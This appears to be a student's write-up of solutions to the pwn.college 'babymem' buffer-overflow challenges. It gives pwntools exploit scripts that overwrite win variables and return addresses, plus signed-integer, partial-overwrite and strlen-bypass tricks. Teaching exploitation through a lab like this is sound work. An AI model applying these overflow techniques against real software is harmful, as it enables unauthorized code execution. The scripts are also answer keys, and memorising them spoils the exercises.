 # Pwn Babymem

## Useful stuff
```sh
# remote login
ssh -i key hacker@"www.your dojo.com"
# copy challenge to your host
scp -i key hacker@"www.your dojo.com":/challenge/* .
```
[Binary Ninja](https://cloud.binary.ninja/)

[Pwn college Memory Error Lecture](https://www.youtube.com/watch?v=hUUcsFPeH9w&t=5236s)

## 1.0 - 1.1
```py
from pwn import *                       
                                        
padding = b'A' * 176                    
payload = padding + p64(0x2dbba028)     
                                        
p = process('/challenge/babymem_level1.0')         
p.recvuntil('size:')                    
p.sendline('120')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```

## 2.0 2.1
```py
from pwn import *                       
                                        
padding = b'A' * 528                    
payload = padding + p64(0xdeadbeef)     
                                        
p = process('/challenge/babymem_level2.0')         
p.recvuntil('size:')                    
p.sendline('530')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```
Task: You can make this variable be non-zero by overflowing the input buffer.
The "win" variable is stored at 0x55c46aa5e8c0, 528 bytes after the start of your input buffer.

## 3.0 
```py
from pwn import *                       
                                        
padding = b'A' * 104                   
payload = padding + p64(0x4018d1) # win address
                                        
p = process('/challenge/babymem_level3.0')         
p.recvuntil('size:')                    
p.sendline('120')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```
Task:
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffe6e8fec28, 104 bytes after the start of your input buffer.
That means that you will need to input at least 112 bytes (73 to fill the buffer,
31 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

## 3.1
used gdb to locate buffer size from `challange` and `win` address

## 4.0
Task: In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffe4e15aa08, 88 bytes after the start of your input buffer.
That means that you will need to input at least 96 bytes (66 to fill the buffer,
22 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

```py
from pwn import *                       
                                        
padding = b'A' * 88                   
payload = padding + p64(0x401818)     
                                        
p = process('/challenge/babymem_level4.0')         
p.recvuntil('size:')                    
p.sendline('-66')  #jns jump if not signed (positive)                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```

## 4.1 
search jump address to `win`

## 5.0
You will want to overwrite the return value from challenge()
(located at 0x7ffd1d851b88, 88 bytes past the start of the input buffer)
with 0x401ace, which is the address of the win() function.
This will cause challenge() to return directly into the win() function,
which will in turn give you the flag.
Keep in mind that you will need to write the address of the win() function
in little-endian (bytes backwards) so that it is interpreted properly.

NOTE: unsigned vs signed ints

```py
from pwn import *                       
                                        
padding = b'A' * 88  # find it with gdb on ret challenge               
payload = padding + p64(0x401ace)    

p = process('/challenge/babymem_level5.0')         
p.recvuntil('records to send:')    
num = int("0x80000000",0)     
tosend = f'{str(num)}\n'           
p.sendline(tosend.encode())                       
                                       
p.recvuntil('payload record:')     
p.send('2\n') 

    
p.send(payload)                         
p.interactive() 

```

## 6.0 - 6.1
Task: search `win_a...` function address using gdb `info func`, find `print` address and jump to it 

## 7.0
Task:Overwriting the entire return address is fine when we know
the whole address, but here, we only really know the last three nibbles.
These nibbles never change, because pages are aligned to 0x1000.
This gives us a workaround: we can overwrite the least significant byte
of the saved return address, which we can know from debugging the binary,
to retarget the return to main to any instruction that shares the other 7 bytes.
Since that last byte will be constant between executions (due to page alignment),
this will always work.

Note: try until the number you put pops out
```py
from pwn import *                       
                                        
padding = b'B' * 136            
payload = padding + b"\x90\x24"    #\x90 = +28

p = process('/challenge/babymem_level7.0')         
p.read()
p.sendline('144')
p.send(payload)   # important! with sendline it changes the length cz it sends another byte '\n'                    
p.interactive() 
```
## 7.1 
find `win_a...` address and buffer size, try until flag pops out
Magic number = 2147483648

## 8.0
Task:
So how do you pass the check? There *is* a way, and we will cover it later,
but for now, we will simply bypass it! You can overwrite the return address
with *any* value (as long as it points to executable code), not just the start
of functions. Let's overwrite past the token check in win!

Like 7.0 but but bypass unsigned comparison 

```py

from pwn import *                       
                                        
padding = b'B' * 45            
payload = padding + b"\x00"+b'A'*42 + b"\x10\xBA"    

p = process('/challenge/babymem_level8.0')         
p.read()
p.sendline('2147483648')
p.send(payload)                         
p.interactive() 
```
hint: man strlen

## 8.1 
Note: find buffer size and win_a.. address and play with it

